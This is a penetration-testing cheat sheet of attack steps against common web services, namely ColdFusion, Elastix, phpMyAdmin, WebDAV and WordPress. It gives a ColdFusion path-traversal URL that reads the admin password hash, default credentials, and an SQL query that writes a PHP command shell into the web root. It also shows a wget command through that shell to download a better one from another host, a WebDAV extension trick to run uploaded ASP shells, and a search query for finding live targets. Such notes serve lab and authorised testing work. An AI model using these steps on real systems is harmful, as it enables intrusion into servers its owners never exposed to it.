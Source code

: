 # Common Web-services

This is a list of some common web-services. The list is alphabetical.

## Cold Fusion

If you have found a cold fusion you are almost certainly struck gold. [http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

### Determine version

example.com/CFIDE/adminapi/base.cfc?wsdl It will say something like:

```text
<!--WSDL created by ColdFusion version 8,0,0,176276-->
```

### Version 8

#### FCKEDITOR

This works for version 8.0.1. So make sure to check the exact version.

```text
use exploit/windows/http/coldfusion_fckeditor
```

#### LFI

This will output the hash of the password.

```text
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

You can pass the hash.

[https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/](https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/)

[http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)

neo-security.xml and password.properties

## Drupal

## Elastix

Full of vulnerabilities. The old versions at least.

[http://example.com/vtigercrm/](http://example.com/vtigercrm/) default login is `admin:admin`

You might be able to upload shell in profile-photo.

## Joomla

## Phpmyadmin

Default credentials

```text
root <blank>
pma <blank>
```

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:

```text
http://192.168.1.101/phpmyadmin/
```

Then click on SQL.

```text
Run SQL query/queries on server "localhost":
```

From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:

```text
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell. We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

### Download a better shell

On linux-machines we can use wget to download a more powerful shell.

```text
?cmd=wget%20192.168.1.102/shell.php
```

On windows-machines we can use tftp.

## Webdav

Okay so webdav is old as hell, and not used very often. It is pretty much like ftp. But you go through http to access it. So if you have webdav installed on a xamp-server you can access it like this:

```text
cadaver 192.168.1.101/webdav
```

Then sign in with username and password. The default username and passwords on xamp are:

Username: **wampp**

Password: **xampp**

Then use **put** and **get** to upload and download. With this you can of course upload a shell that gives you better access.

If you are looking for live examples just google this:

```text
inurl:webdav site:com
```

Test if it is possible to upload and execute files with webdav.

```text
davtest -url http://192.168.1.101 -directory demo_dir -rand aaaa_upfileP0C
```

If you managed to gain access but is unable to execute code there is a workaround for that! So if webdav has prohibited the user to upload .asp code, and pl and whatever, we can do this:

upload a file called shell443.txt, which of course is you .asp shell. And then you rename it to **shell443.asp;.jpg**. Now you visit the page in the browser and the asp code will run and return your shell.

### References

[http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf](http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf)

## Webmin

Webmin is a webgui to interact with the machine.

The password to enter is the same as the passsword for the root user, and other users if they have that right. There are several vulnerabilites for it. It is run on port 10000.

## Wordpress

```text
sudo wpscan -u http://cybear32c.lab
```

If you hit a 403. That is, the request if forbidden for some reason. Read more here: [https://en.wikipedia.org/wiki/HTTP\_403](https://en.wikipedia.org/wiki/HTTP_403)

It could mean that the server is suspicious because you don't have a proper user-agent in your request, in wpscan you can solve this by inserting --random-agent. You can of course also define a specific agent if you want that. But random-agent is pretty convenient.

```text
sudo wpscan -u http://cybear32c.lab/ --random-agent
```

### Disable https checks

```text
wpscan –url https://192.168.117.136:12380/blogblog/ –disable-tls-checks
```

### Scan for users

You can use wpscan to enumerat users:

```text
ruby wpscan.rb --url http://yourwebsite.com --enumerate u
```

